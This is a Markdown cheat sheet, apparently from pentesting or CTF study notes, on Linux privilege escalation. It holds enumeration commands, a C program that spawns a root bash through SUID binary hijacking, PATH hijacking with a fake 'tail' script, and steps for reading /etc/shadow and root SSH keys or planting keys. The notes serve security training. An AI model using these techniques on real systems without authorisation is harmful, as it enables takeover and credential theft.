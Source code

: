 ```yaml
---
title: "Linux privilege escalation"
weight: 3
description: "Learn about various techniques and methods for privilege escalation on Linux system, including exploiting weak permissions, SUID, and more, with detailed notes and code examples."
---
```


# Linux privilege escalation

---

## Vulnerable program

Search scripts that execute programs. Search for **any vulnerable version**. One example: chkrootkit v0.49 (running as root)

```sh
ps aux
```

{{< hint style=notes >}}
**Note**: it's possible that another user (e.g., root) is running a cron job that executes a script periodically, which you may not be able to see. Therefore, it's crucial to identify and enumerate all potential programs that could be vulnerable.
{{< /hint >}}

---

## Weak Permissions

```sh
# World-writable files - E.g.: maybe you can edit shadow file
find / -not -type l -perm -o+w
```

---

## Sudo

```sh
sudo -l
# Search on https://gtfobins.github.io/ how to exploit
```

---

## SUID 

Find all SUID binaries:
```bash
find / -perm -4000 2>/dev/null
```

**Well-known binary**

Search for the binary on [GTFOBins](https://gtfobins.github.io) to identify potential exploitation techniques.


**Custom binary**

Premise: you have `binary_name` (with suid) that use/load/execute `loaded_binary`

Extract strings from the binary – look for shared libraries or binaries being loaded / executed at runtime

```sh
strings binary_name
```

**(1) Method**

```sh
cp /bin/bash /path/to/loaded_binary
```

**(2) Method**

Delete the loaded binary and replace with a new one:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    system("/bin/bash -i"); 
    return 0;
}
```

```sh
# Compile
gcc binary.c -o <loaded_binary>
# Run the binary
./binary_name
```

---

## Capabilities

Since Linux version 2.2, the system has divided the traditional superuser privileges into distinct units called capabilities \[[↗](https://man7.org/linux/man-pages/man7/capabilities.7.html)]. These capabilities can be independently enabled or disabled, offering more fine-grained control over process privileges. However, if misconfigured, they can be exploited by an attacker to escalate privileges and gain root access.

```sh
/usr/sbin/getcap -r / 2>/dev/null
```

Search for the binary on [GTFOBins](https://gtfobins.github.io) to identify potential exploitation techniques.


---

## Email

Analyze the email for any sensitive information:

```bash
ls /var/mail
```


---

## Other

* `sudo -l`
  * setenv?
* SUID/GUID
* Look for capabilities
* History Files
* Docker group
* Cron jobs
* SSH Keys
* PATH
* NFS
* Writable /etc/shadow
* Writable /etc/passwd
* Are there scripts that use commands?
  * If the command is executed without full path you can modify PATH variable
  * `strings <program_name>`
  * you see `tail -f /var/log/nginx/access.log`
  * ```sh
    #!/bin/bash
    /bin/bash -p
    ```
  * `chmod +x /tmp/tail`
  * `export PATH=/tmp:$PATH`
  * `./<program_name>`
* Is there a database? Can I access to it?
  * Look at config file or source code of webpages connecting to db
* Look at the source code of the php,py,jsp ... files of the website
  * Especially login files. Any password?
* Writable authorized\_key folder?
  * generate new ssh keys
* Can I read some file with sudo?
  * /root/root.txt, /etc/shadow, /root/.ssh/id\_rsa
* Can I write a file in the root user directory?
  * generate ssh key with ssh-keygen and save it in the root user dir
* Kernel Exploits
* Linpeas.sh
* [GTFObins](https://gtfobins.github.io)
